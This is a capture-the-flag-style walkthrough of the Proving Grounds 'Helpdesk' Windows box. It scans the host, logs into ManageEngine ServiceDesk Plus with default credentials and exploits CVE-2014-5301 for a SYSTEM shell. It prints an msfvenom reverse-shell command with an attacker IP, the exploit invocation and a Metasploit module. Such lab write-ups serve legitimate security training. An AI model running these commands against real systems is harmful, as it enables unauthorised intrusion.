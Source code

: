 n
OS: Windows
# Nmap
First run a nmap scan:

```sh
┌──(kali㉿kali)-[~/PGPRACTICE/HELPDESK/recon/nmap]
└─$ nmap -p- -vv --min-rate 2000 -oA init 192.168.228.43 -Pn               
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
....
PORT     STATE SERVICE       REASON
135/tcp  open  msrpc         syn-ack
139/tcp  open  netbios-ssn   syn-ack
445/tcp  open  microsoft-ds  syn-ack
3389/tcp open  ms-wbt-server syn-ack
8080/tcp open  http-proxy    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 65.73 seconds
```
# visit port 8080
I noticed that port 8080 was open so I decided to check it out. It became clear the server was running ManageEngine ServiceDesk Plus Version 7.6.0
![](version.png)

The vrsion is clearly visible in the right bottom corner.

After googling for the default credentials of the application we can see that the default username and password is administrator/adminstrator. 

We are able to login with the default username and password administrator/adminstrator


![](admin.png)

The ManageEngine software has a path traversal vulnerabilty which can lead to RCE. The exploit we can use is:

https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py

# Exploit
As mentioned in the python file with the exploit we have to generate a .war file with msfvenom:
```sh
 msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.166 LPORT=4444 -f war > shell.war
```

Now we can start a listener and run the exploit:
```sh
┌──(kali㉿kali)-[~/PGPRACTICE/HELPDESK/exploit]
└─$ python3 CVE-2014-5301.py 192.168.228.43 8080 administrator administrator shell.war
```
Boom Baby! We have a shell as 'nt authority\system'. We do not need to escalate out privileges and we can read the proof.txt flag.

![](proof.png)

# Exploiting with metasploit.
We can also use Metasploit for exploiting the vulnerability:

```sh
use exploit/multi/http/manageengine_auth_upload
```

Then set the `RHOST` and `LHOST`. The payload should be `java/shell_reverse_tcp`. The exploit will work with the default username and password `guest/guest`.

![](metasploit.png)

# Recommendations:
1. Update the application. The issue is fixed on ServiceDesk Plus 9.0 build 9027 and on AssetExplorer
6.1 build 6107. It is UNFIXED for IT360.
